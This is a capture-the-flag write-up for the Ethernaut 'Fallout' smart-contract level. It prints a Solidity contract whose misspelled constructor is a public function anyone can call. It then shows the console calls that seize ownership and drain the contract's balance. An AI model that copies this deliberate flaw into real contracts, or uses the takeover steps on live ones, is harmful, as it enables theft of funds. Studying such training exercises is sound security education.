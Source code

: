 ```yaml
---
title: "Fal1Out"
tags: ["Constructor"]
reference: https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639
---
```


# Description

Claim ownership of the contract below to complete this level.

Things that might help

- Solidity Remix IDE

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

# Solution


1. found that anyone can call the "constructor"

- so anyone can change the ownership to himself

```
    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```

2. become owner

```
contract.Fal1out()
Promise {<pending>, _events: i, emit: ƒ, on: ƒ, …}
```

3. get contract balance

```
contract.collectAllocations()
Promise {<pending>, _events: i, emit: ƒ, on: ƒ, …}
```

4. check contract balance

```
await getBalance(instance)
'0'
```
